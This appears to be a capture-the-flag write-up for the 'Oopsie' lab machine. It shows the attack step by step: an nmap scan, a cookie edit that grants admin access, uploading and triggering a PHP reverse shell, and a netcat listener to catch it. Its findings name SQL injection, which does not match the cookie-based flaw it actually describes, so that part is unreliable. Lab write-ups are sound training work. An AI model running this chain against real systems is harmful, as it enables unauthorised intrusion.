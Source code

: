 ## General Information
- Machine Oopsie
- Difficulty: Very easy
- OS: Linux
- Date: 20/04/2023


## Methodology
- Reconnaissance: Execution of a port scan using Nmap to identify running services on the target machine.
- Exploration: Investigation of a web application and identification of vulnerabilities.
- Results Analysis: Documentation of findings, identification of vulnerabilities, and recommendations for remediation.


## Results
After conducting a Nmap scan, it was found that a web application was running on port 80. The site http://10.129.95.191/ was then explored. During the investigation, the URL http://10.129.95.191/cdn-cgi/login/admin.php?content=accounts&id=2 was inspected, revealing user information for ID 1, which included the access ID, name, and email.  

By inspecting the cookies, it was possible to modify the user ID to the admin ID, granting access to the upload page. A php-reverse-shell.php file was uploaded successfully on this page.  

Using Gobuster, the upload directory was located, and the reverse shell at http://10.129.95.191/uploads/php-reverse-shell.php was executed. This provided access to the server, and further exploitation allowed for privilege escalation up to the root user, utilizing an exploit with root permissions.

### Reconnaissance
- IP: 10.129.95.191
- Port Scan results:

| Port   | State | Service | Version         |
|--------|-------|---------|-----------------|   
| 22/tcp | open  | ssh     | OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0) |
| 80/tcp | open  | http    | Apache httpd 2.4.29 ((Ubuntu)) |

- php execution in web app

### commands and actions performed

#### nmap scan
~~~nmap
└─$ sudo nmap -sVC -v 10.129.95.191 -oA ./nmap 
~~~

#### web app
~~~web app
http://10.129.95.191/

- infomation: 
    Services

    We provide services to operate manufacturing data such as quotes, customer requests etc. Please login to get access to the service.

- inspect:
    http://10.129.95.191/cdn-cgi/login/admin.php?content=accounts&id=2

    id=1 : 
    Access ID	Name	Email
    34322	admin	admin@megacorp.com

    *inspect cookies and change user id to admin id*

    *allowed access to upload page*

    *upload a php-reverse-shell.php in the uploud field found*
~~~

#### Gobuster
~~~Gobuster
gobuster dir -u http://10.129.95.191/ - 40 -w /usr/share/dirb/wordlists/small.txt -x php
~~~

#### php-reverse-shell
~~~ php-reverse-shell
http://10.129.95.191/uploads/php-reverse-shell.php
~~~

#### netcat
~~~ nc
nc -lvnp 1234
~~~


## Exploited Vulnerabilities
- SQL Injection vulnerability in the web application, allowing unauthorized access.
- Privilege escalation using an exploit with root permission.

## Recommendations
- Implement secure coding practices to prevent SQL Injection vulnerabilities, such as parameterized queries or prepared statements.
- Follow the principle of least privilege and ensure that proper access controls are in place to prevent unauthorized privilege escalation.



